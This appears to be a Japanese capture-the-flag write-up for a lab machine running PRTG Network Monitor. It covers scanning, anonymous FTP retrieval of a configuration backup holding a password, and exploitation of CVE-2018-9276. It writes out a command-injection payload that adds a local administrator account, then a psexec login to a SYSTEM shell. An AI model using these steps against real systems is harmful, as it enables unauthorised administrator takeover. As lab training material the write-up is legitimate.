

# 1\. Port scan

$ip=10.10.10.152

sudo nmap -sC -sV -Pn $ip

-sC  対象のポートやサービスにスクリプトを実行するためのオプション。

-sV サービスバージョンの検出を目的としたスキャンを実行するためのオプション

-Pn ホスト検出をスキップする。pingを打たずにポートスキャンを実施するオプション。

上記nmapの結果から

FTP

PRTG bandwidth monitor

SMB

の3種類のサービスが使われているのを確認した。

スキャンした結果、赤枠内のPRTGのバージョンが判明した為、googleから検索した結果、CVE-2018-9276の脆弱性が利用できるのを確認した。

参考URL:`https://github.com/A1vinSmith/CVE-2018-9276.git`

**CVE-2018-9276**

\*\*PRTGNetworkMoniterに関する脆弱性。\*\***この脆弱性はバージョン18.2.39以前のバージョンで見つかりました。****このバージョンのPRTG管理者ウェブコンソールに管理者権限を持つ攻撃者がアクセスした場合、センサーや****通知管理シナリオで不正なパラメータを送信することで、OSコマンドインジェクションの脆弱性が悪用される。**

# **2.SMBサービスをスキャン**

smbmap を使用してスキャンしたが認証に失敗した。

# 3.FTPサーバにアクセス

上記スキャン結果からFTPのパスワードが設定されていないことを確認した。

Anonymousログインに成功した。

user.txtをダウンロードした結果flagだった事を確認した。

# 4\. PRTGの情報を収集

nmapの実行結果から検知したサービスの情報と思われるものを確認した。

## https://kb.paessler.com/en/topic/463-how-and-where-does-prtg-store-its-data

デフォルトのインストール先がprogramdataに設定されている事をPaessler公式ページのSUPPORTから確認した。

ftpサーバへ接続は可能な為、同サーバ内からprogramdataディレクトリにアクセスできる事を確認した。

`ls`

lsコマンドでは表示されなかった為 -laオプションで試行した。

`ls -la`

hidden属性を含めたファイルを表示nmapで検出したサービス名と同じディレクトリを発見した。

`cd ProgramData`

`cd Paessler`

`cd ./"PRTG Network Monitor"`

設定ファイルと思しき複数のファイルを確認したため解析の為にダウンロードした。

mget PRTG*

ダウンロードした各種ファイルの解析を実施した。

`cat ./PRTG\ Configuration.dat | grep -B 3 -A 3 credential`

PRTG Configuration.datを解析したが有用な情報は確認できなかった。

`cat ./PRTG\ Configuration.old | grep -B 3 -A 3 credential`

PRTG　Congiguration.oldを解析したが有用な情報は確認できなかった。

バックアップを確認した結果

ファイル内のcredentialを表示した結果ユーザ名とパスワードを発見した。

PRTG　Configuration.old.bakを確認した所、ユーザIDとパスワードと思われる情報を確認した。

記載してるユーザ情報でログインを試したが失敗した。

パスワードは PrTg@dmin2018
ではなくPrTg@dmin2019と推測した。

ログイン成功する。

# 5\. PRTGに侵入する

* * *

# 

[`https://github.com/A1vinSmith/CVE-2018-9276`](https://github.com/A1vinSmith/CVE-2018-9276%E3%82%92%E5%8F%82%E7%85%A7%E3%81%97%E3%81%A6)

を参考にして攻撃を実施した。

setup→

Account Settings →

Notifications→

11Add new Notification１１１111１1

# 6.OSコマンドインジェクションを試行する。

program file Demo exe notification – outfile.ps1

parameterにtest.txt;net user pentestop P3nT3st! /add;net localgroup administrators pentestop /add

net user pentestop P3nT3st! /add

上記のコマンドを実行し、ローカルユーザアカウント「pentestop
pentestopユーザの P3nT3st!パスワードを追加した。

net localgroup administrators pentestop /add

作成したpentestopユーザを管理者グループのadministratorsに追加した。

OSコマンドインジェクションを実施する。

作成したNotificationを実行できるのを確認した。

net user pentestop P3nT3st! /add;コマンドとnet localgroup administrators pentestop /addコマンドが通知をONにしたタイミングで実行されて

pentestopユーザが追加されadministratorsグループに追加される

`smbmap -H 10.10.10.152 -u pentestop -p 'P3nT3st!'`

上記手順により作成したユーザアカウント「pentestop」がsmbmapの認証に使用できる可能性があることから

smbmapを実行しSMBサービスへのログインを試行して認証に成功した。

SMB共有フォルダのパーミッションを確認した結果、C$ ADMIN$ のREAD,WRITEが許可されていることを確認した。

その結果psexec.pyが使用できると推測した。

psexec.pyは、IMPACKET Pythonモジュールに含まれる侵入テストスクリプトの一つである。このスクリプトは、Core Labsから提供されているIMPACKETツールセットの一部であり、侵入テストやセキュリティ評価のために使用される。

リモートログインできる条件は「管理者権限があること」とSMB共有フォルダ「ADMIN$」「C$」のパーミッションがREAD,WRITEであること。

今回は上記条件を満たしているのでリモートアクセス可能であると推測し、試行した。

`python3 psexec.py 'pentestop:P3nT3st!@10.10.10.152'`

システム権限ユーザ「nt authority\\system」でログインしたことを確認した。

C:\\Users\\Administrator\\Desktopに移動してroot.txtを取得した。

